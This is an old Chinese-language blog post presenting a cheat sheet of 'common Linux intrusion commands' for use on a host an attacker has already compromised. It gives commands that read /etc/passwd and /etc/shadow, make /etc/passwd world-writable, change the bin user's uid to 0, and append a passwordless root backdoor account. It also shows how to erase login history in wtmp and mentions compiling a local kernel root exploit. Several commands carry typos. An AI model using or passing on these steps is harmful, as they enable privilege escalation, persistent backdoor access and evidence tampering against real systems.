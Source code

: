 ```yaml
---
layout: post
title: linux入侵常用命令
date: '2014-01-09T13:10:00.001+08:00'
author: Wenh Q
tags:
modified_time: '2014-01-09T13:10:53.611+08:00'
blogger_id: tag:blogger.com,1999:blog-4961947611491238191.post-4749376341673506728
blogger_orig_url: http://binaryware.blogspot.com/2014/01/linux_8419.html
---
```

在linux系统的学习使用中我们遇到很多命令，今天我们就学习一些常用[入侵](http://www.chinabyte.com/keyword/%E5%85%A5%E4%BE%B5/)命令，下面我们就进入正题。

　　cat /etc/passwd 查看linux用户

　　cat /etc/shadow 查看用户密码需要root权限

　　cat /etc/sysconfig/network-scripts/ifcfg-ethn N代表网卡号
查看所在网卡的ip信息

　　ifconfig 查看本机ip信息

　　cat /etc/resolv.conf 查看DNS信息

　　bash -i 在反弹的shell中使用可以直观显示命令

　　bash prompt:
当你以普通限权用户身份进入的时候，一般你会有一个类似bash$的prompt。当你以Root登陆时，你的prompt会变成

　　bash#。

　　系统变量 : 试着echo "$USER / $EUID"
系统应该会告诉你它认为你是什么用户。

　　echo 1>/proc/sys/net/ipv4/if_forward是不是你写错了,应该是echo
1>/proc/sys/net/ipv4/ip_forward,

　　vim /proc/sys/net/ipv4/ip_forward
吧,默认是0,也就是内核不进行数据包过滤,改为1
,让内核对数据包进行filter处理!

　　netstat -an |grep LISTEN |grep :80 查看端口

　　service --status-all | grep running

　　service --status-all | grep http

　　查看运行服务

　　lsb_release -a 查看系统版本

　　重启[ssh](http://www.chinabyte.com/keyword/SSH/)服务
：/usr/sbin/sshd stop

　　/usr/sbin/sshd start

　　ssd_config文件里

　　PasswordAuthentication no,

　　将其改为

　　PasswordAuthentication yes

　　远程ssh才可登录

　　否则显示Access denied

　　其中Usepam
yes可能用来建立pam方式login，比如从其它linux主机ssh到服务端，如果关闭，则不能打开.

　　su的菜鸟用法

　　先chomod 777 /etc/passwd

　　然后修改bin用户的gid和uid为0

　　然后passwd设置bin的密码

　　然后cp /bin/bash /sbin/nologin

　　然后su的时候su - bin就可以到rootshell了。

　　这个原理就是当ssh不允许root用ssh终端登陆的时候，我们又不知道root密码，的一种很菜鸟的做法

　　还可以这样

　　sed -i s/bin:x:1:1/bin:x:0:1/g /etc/passwd

　　gcc prtcl2.c –o local –static –Wall

　　echo "nosec:x:0:0::/:/bin/sh" >> /etc/passwd

　　echo "nosec::-1:-1:-1:-1:-1:-1:500" >> /etc/shadow

　　清空last记录 cp /dev/null /var/log/wtmp

　　-----

　　dd if=/dev/zero of=yourfile bs=10M count=10
建立一个100m的大文件在利用Linux Kernel <= 2.6.17.4 (proc) Local Root
Exploit提权的时候要用到的
